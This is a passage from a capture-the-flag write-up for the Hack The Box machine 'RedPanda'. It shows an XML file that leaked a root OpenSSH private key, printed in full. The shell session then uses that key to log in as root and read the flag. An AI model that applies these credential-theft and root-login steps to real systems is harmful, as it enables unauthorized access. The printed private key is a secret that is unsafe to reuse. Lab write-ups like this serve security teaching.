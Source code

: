 ```bash
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</root>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smooch.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>

```
I can now SSH into the box as root and grab the flag!
```bash
┌──(kali㉿Kali)──[15:51:37]──[~/htb/Machines/RedPanda]
└─$ echo '-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----' > root_rsa
                                                                                                                               
┌──(kali㉿Kali)──[15:51:45]──[~/htb/Machines/RedPanda]
└─$ chmod 600 root_rsa  
                                                                                                                               
┌──(kali㉿Kali)──[15:51:49]──[~/htb/Machines/RedPanda]
└─$ ssh -i root_rsa root@10.129.227.207    
<...SNIP...>
Last login: Thu Jun 30 13:17:41 2022
root@redpanda:~# id
uid=0(root) gid=0(root) groups=0(root)
root@redpanda:~# cat root.txt 
19f971e-------------------------
root@redpanda:~# 

```
